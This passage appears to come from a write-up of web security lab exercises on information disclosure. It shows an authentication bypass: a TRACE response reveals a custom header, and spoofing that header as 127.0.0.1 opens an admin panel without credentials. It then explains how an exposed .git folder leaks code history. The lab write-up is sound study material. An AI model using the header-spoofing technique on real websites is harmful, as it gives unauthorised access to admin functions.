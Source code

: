 ### EX: Authentication bypass via information disclosure

**https://example.com/**

In this website after Directory Fuzzing using `burpsuite Content discovery` or `dirsearch` I find this Page `/admin` but it contain message say 

`Admin interface only available to local users `

Let's check if the web server allow the TRACE Method to make web server echoing in the response the exact request that was received and he supported this method and this is the response

```log
HTTP/2 200 OK
Content-Type: message/http
X-Frame-Options: SAMEORIGIN
Content-Length: 668
TRACE /admin HTTP/1.1
Host: 0a7a007703ccc5728260b071006c000b.web-security-academy.net
user-agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
accept-language: en-US,en;q=0.5
accept-encoding: gzip, deflate
referer: https://0a7a007703ccc5728260b071006c000b.web-security-academy.net/login
dnt: 1
upgrade-insecure-requests: 1
sec-fetch-dest: document
sec-fetch-mode: navigate
sec-fetch-site: same-origin
sec-fetch-user: ?1
te: trailers
cookie: session=0vsaLOpqAfkvaqJPePQXahPgOsJtLdXm
Content-Length: 0
X-Custom-IP-Authorization: 154.178.220.71
```

and there are a header called `X-Custom-IP-Authorization` this header containing our  IP address,and it was automatically appended to our request. This is used to determine whether or not the request came from the `localhost` IP address,Let's add it in our request and write local ip `X-Custom-IP-Authorization: 127.0.0.1` and after adding this header we succesfully accessing the admin panel without admin credential

## Version control history

Most websites use version control systems like `Git`, which stores its data in a folder called `.git`. Sometimes this folder is exposed in the production environment, allowing access by browsing to `/.git`. To download the entire `.git` directory, there are various methods available, although manually browsing the file structure can be impractical. Once downloaded, the directory can be opened in `Git` to access the website's version control history, including logs of committed changes. While this may not provide access to the full source code, it can allow reading of small code snippets and the potential discovery of sensitive data hard-coded within changed lines.

### EX: Information disclosure in version control history

